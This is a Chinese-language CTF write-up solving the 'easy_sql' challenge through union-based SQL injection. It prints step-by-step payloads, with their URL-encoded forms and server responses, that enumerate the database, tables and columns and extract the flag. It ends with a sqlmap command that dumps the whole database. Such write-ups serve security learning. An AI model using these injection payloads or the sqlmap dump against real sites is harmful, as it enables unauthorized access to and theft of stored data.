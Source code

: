 ```yaml
---
layout: post
title: "easy_sql"
date:   2024-9-29
tags: [SQL注入, CTF, WEB]
comments: true
author: MK-KM1542
---
```



**_sql 注入的题目，会做才算入门_**
F12 查看网页源代码

```html
<title>参数是 wllm</title>
```

get 请求，参数为 wllm
输入`?wllm=1`,返回结果：

```
Your Login name:xxx
Your Password:yyy
```

**burpsuite**抓包，发送到**Repeater**模块进行下一步操作
因为是 get 传参，所以**注意 URL 编码**，详情见**delete注入.md**

## 确认 sql 注入漏洞

输入一个单引号`?wllm='`,返回结果：

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '''' LIMIT 0,1' at line 1
```

报错啦 🥰，存在 sql 注入漏洞

## order by 确认查询字段数

```sql
# payload         # url编码            # 返回结果

1' order by 4#    1'+order+by+4%23     Unknown column '4' in 'order clause'

1' order by 3#    1'+order+by+3%23     Your Login name:xxx<br>Your Password:yyy
```

字段数为 3

## 寻找注入点

```sql
# payload                 # url编码                  # 返回结果
0' union select 1,2,3#    0'+union+select+1,2,3%23   Your Login name:2<br>Your Password:3
```

2、3 是注入点，尝试使用 union select 命令进行注入

- 这里需要注意**把 1 改成其他数字**，比如 0
- 因为输入只有两个数据，如果为 1，则输出`xxx`、`yyy`，即`Your Login name:xxx<br>Your Password:yyy`，后面的就没有了
- 改成`0`后，数据库找不到数据，`union`前的命令没有输出，而`union`后的我们想要的命令就可以执行输出了

## union select 命令进行注入

### 获取数据库名和表名

```sql
# payload
0' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()#
# url编码
0'+union+select+1,database(),group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()%23
# 返回结果
Your Login name:test_db<br>Your Password:test_tb,users
```

拿到数据库名为`test_db`，表名为`test_tb,users`

### 获取列名

```sql
# payload
0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='test_tb'#
# 返回结果：Your Login name:2<br>Your Password:id,flag
0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'#
# 返回结果：Your Login name:2<br>Your Password:USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password
```

找到`flag`了，在`test_tb`表中

### 获取 flag

```sql
# payload
0' union select 1,2,flag from test_db.test_tb#
# 返回结果：Your Login name:2<br>Your Password:NSSCTF{8f8fe0a0-6e9f-4d5e-ae9c-2b7049afa57b}
```

得到 flag：`NSSCTF{8f8fe0a0-6e9f-4d5e-ae9c-2b7049afa57b}`

# 另一种方法

***sqlmap**_秒了

```batch
python sqlmap.py -u http://node4.anna.nssctf.cn:28566//?wllm=1 --columns --dump
```

在`C:\Users\Administrator\AppData\Local\sqlmap\output\node4.anna.nssctf.cn\dump\test_db\test_tb.csv`找到`flag`
有难度的题目**sqlmap**可能扫不出来
但还是要养成做题先扫一扫的好习惯
万一直接出来了呢🤗
